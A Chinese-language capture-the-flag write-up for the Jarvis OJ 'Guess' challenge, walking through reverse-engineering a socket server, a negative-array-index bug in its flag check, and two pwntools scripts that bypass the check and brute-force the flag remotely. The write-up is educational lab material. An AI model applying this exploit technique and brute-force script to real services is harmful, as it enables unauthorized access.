 ```yaml
---
title: Jarvis OJ - Guess の Write-Up
date: 2020-08-31 16:41:05
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## Step 1

首先尝试运行程序，发现没有任何回显：

![](/img/Guess/Guess1.png)

<!-- more -->

checksec一下：

![](/img/Guess/Guess2.png)

开启了DEP，栈上不可执行。

## Step 2

将程序丢到IDA中，首先是main函数：

![](/img/Guess/Guess3.png)

这很明显是一个socket服务器端的代码，监听的端口是0x270f即9999。nc上去看一下：

![](/img/Guess/Guess4.png)

再回到程序中去看下处理函数handle()：

![](/img/Guess/Guess5.png)

首先有一个alarm定时函数超时退出，会影响动态调试，可以把这个函数用NOP patch掉。后面接收的输入长度和申明的变量长度一致，不存在溢出。

接着是rtrim()函数：

![](/img/Guess/Guess6.png)

这个函数把输入的字符串下标为奇数位的位置清０，但是gdb attach上去看了一下发现并没有改变。

根据逆向的伪代码发现是通过fork创建子程序而不是多线程，所以需要找一下具体子程序的进程号：

![](/img/Guess/Guess7.png)

152是父进程的进程号，`nc 127.0.0.1 9999`之后程序会fork一个子进程，进程号为155。接下来`gdb attach 155`看下子进程的堆栈信息：

![](/img/Guess/Guess8.png)

在连接的程序界面输入100个‘1’跳过第一段输入字符长度的检测：

![](/img/Guess/Guess9.png)

在执行rtrim()函数之前的位置下个断点：

![](/img/Guess/Guess10.png)

再在执行完rtrim()函数后下个断点：

![](/img/Guess/Guess11.png)

发现输入的字符串并没有改变……那就跳过不管了。最后调用了is_flag_correct()函数：

![](/img/Guess/Guess12.png)

该函数首先检测输入的字符串长度是不是100，输入存放在flag_hex。然后将0x401100位置的数据复制到bin_by_hex，0x401100位置的数据除了0-9以及大小写ABCDEF之外都是0xFF。接着将FAKE{9b355e394d2070ebd0df195d8b234509cc29272bc412}赋给flag（当然这是假的flag）。

接下来是函数的主体部分，对用户输入的字符串进行处理，每两位为一组，循环50次。将输入的字符在bin_by_hex中寻找对应的值，如果不在0-9以及大小写ABCDEF中时退出程序。然后通过’｜’运算将输入的100字节长度的字符串变为50字节长度，再比较given_flag和flag，返回比较结果。

这里是将flag_hex字符串的ASC II值当作bin_by_hex的索引，相当于将原来char类型的变量转换成了int类型，就会造成问题。当我们控制输入的字符串最终变为负数的索引时，程序就会回去找对应的值。

而根据栈的布局，bin_by_hex的地址是高于flag的，结合上一句提到的负索引问题，我们就可以实现将given_flag设置为真正的flag从而通过检验。

但是我们依然不清楚真正的flag是什么，所以将正确的flag修改每一位，猜测每一位，这样最终猜解出来flag。

## Step 3

分析结束就是具体怎么利用了，首先根据id_flag_correct函数bin_by_hex和flag相距0x40即64，所以我们需要控制索引每位减64。

测试脚本如下：

```Python
from pwn import *

context.log_level = 'debug'

sh = remote('pwn.jarvisoj.com', 9878)

payload = ""
for i in range(50):
    payload += "0" + chr(0x40 + 128 + i)

sh.recvuntil("guess> ")
sh.sendline(payload)

sh.recv()
sh.close()
```

运行结果如下图所示：

![](/img/Guess/Guess13.png)

可见我们成功的将given_flag设置为了真正的flag，通过了检测。下一步就是要尝试一个一个的爆破，获取正确的flag：

```Python
from pwn import *
import string

# context.log_level = 'debug'

sh = remote('pwn.jarvisoj.com', 9878)

payload = ""
for i in range(50):
    payload += "0" + chr(0x40 + 128 + i)

sh.recvuntil("guess> ")

shellcode = list(payload)
flag = ""
for i in range(50):
    for j in string.printable:
        shellcode[2 * i]  = j.encode('hex')[0]
        shellcode[2 * i + 1] = j.encode('hex')[1]
        sh.sendline("".join(shellcode))
        print "".join(str(i) for i in shellcode)

        ans = sh.recvline()
        print ans

        if ('Yaaaay!' in ans) == 1:
            flag += j
            break

print flag

sh.close()
```

脚本运行结果：

![](/img/Guess/Guess14.png)